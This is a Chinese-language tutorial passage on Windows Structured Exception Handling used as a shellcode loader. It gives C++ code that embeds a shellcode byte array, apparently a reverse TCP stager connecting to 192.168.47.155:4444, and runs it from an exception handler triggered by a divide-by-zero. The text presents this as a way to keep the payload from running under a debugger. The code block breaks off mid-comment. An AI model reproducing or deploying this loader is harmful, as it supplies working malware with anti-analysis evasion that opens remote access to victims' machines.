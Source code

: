 SEH的工作原理是在程序中建立一个异常处理函数链。每个异常处理函数都负责处理特定的异常。当程序运行时遇到异常，操作系统会沿着异常处理函数链寻找适当的处理函数。如果找到合适的异常处理函数，系统将调用该函数并处理异常。如果没有找到合适的处理函数，系统将终止程序

![img](shellcode加载器/assets%2F-M3GuIlaAXU8NbJTCRei%2F-M7u7TrzN0Wym0qmjjSg%2F-M7u9bFpgHXC3vjN9d5g%2Fimage.png)



在C++中，可以使用`_try`、`_except`和`_finally`关键字来实现SEH异常处理。`_try`块包含可能引发异常的代码；`_except`块包含处理异常的代码；而`_finally`块包含在任何情况下都应执行的代码，无论是否发生异常	

SEH的一个重要特点是它与语言无关，因此可以在C、C++等语言中使用。然而，C++提供了另一种异常处理机制：C++异常处理（`try`、`catch`和`throw`关键字）。C++异常处理机制更符合C++语言的面向对象特性，通常在C++程序中更为常用。然而，在某些情况下，SEH仍然具有独特的优势，例如在处理特定的Windows异常或与C代码交互时



## 实现代码

这种方式加载shellcode的一个好处就是在调试器环境下和正常运行环境下表现不同。当程序在调试器中运行时，调试器会接管异常处理，从而使得程序在除零异常处停止，而不会执行shellcode。这使得恶意代码的执行在调试环境下被阻止，为分析和调试带来困难

```cpp
#include<Windows.h>
#include<stdio.h>
#pragma comment(linker, "/section:.data,RWE")

// 存储要执行的shellcode
char shellcode[] = 
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52"
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x31\xff\x0f\xb7"
"\x4a\x26\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d"
"\x01\xc7\x49\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01"
"\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0\x8b\x48\x18\x8b"
"\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49\x31\xff\x8b\x34"
"\x8b\x01\xd6\x31\xc0\xc1\xcf\x0d\xac\x01\xc7\x38\xe0\x75"
"\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01"
"\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58"
"\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00"
"\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80"
"\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f\x9b\x68\x02\x00"
"\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74"
"\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10"
"\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53"
"\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8"
"\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b"
"\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e"
"\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a"
"\x00\x53\xff\xd5";

int a = 1;
int b = 0;

// 定义异常处理函数
int ExceptFilter()
{	
	b = 1; // 修改b的值为1，以防止无限循环的异常处理
	((void(*)(void)) & shellcode)(); // 强制转换shellcode的类型，并执行
	return EXCEPTION_CONTINUE_EXECUTION; // 在处理完异常后，程序继续执行异常发生位置的代码
	/*
	EXCEPTION_CONTINUE_EXECUTION返回值会导致程序在处理完异常后重新执行引发异常的那一行代码。
	由于ExceptFilter函数已经修改了变量b的值（将其设置为1），再次执行a / b时将不会触发异常。
	因此，这个程序不会反复加载shellcode
```